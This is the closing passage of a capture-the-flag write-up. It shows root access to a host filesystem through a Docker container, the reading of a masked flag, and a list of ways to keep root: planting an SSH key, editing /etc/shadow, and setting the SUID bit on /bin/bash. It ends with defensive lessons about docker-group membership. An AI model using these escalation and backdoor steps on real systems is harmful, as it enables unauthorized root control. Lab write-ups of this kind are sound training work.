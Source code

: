 On running the above command we get a shell 

```bash
root@1b010b01d96e:/#
```

Getting access to root directory of host machine

```bash
root@1b010b01d96e:/# cd /tmp/root
root@1b010b01d96e:/tmp/root# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
```

Read the flag

```bash
root@1b010b01d96e:/tmp/root# cd root
root@1b010b01d96e:/tmp/root/root# cat root.txt
2bc************************a57
```

If you want root shell you can:

- Add your public key in `.ssh/authorized_keys file`. Since text editors do not work so you can use the echo command.
- You can change the hash of password from the `/etc/shadow` file of the root user. Same use echo.
- You can change the permission of /bin/bash by adding suid bit by `chmod 4777 /bin/bash` and exit out of the container and run `/bin/bash -p` to get root shell. Or copy the /bin/bash to a user-owned folder and add suid bit.

# What I learned

- Update your applications that are running as vendors push patches of the vulnerabilities in the new release.
- Dont add users in the docker group as they can access the root filesystem easily. This is like creating a backdoor for users to get root access.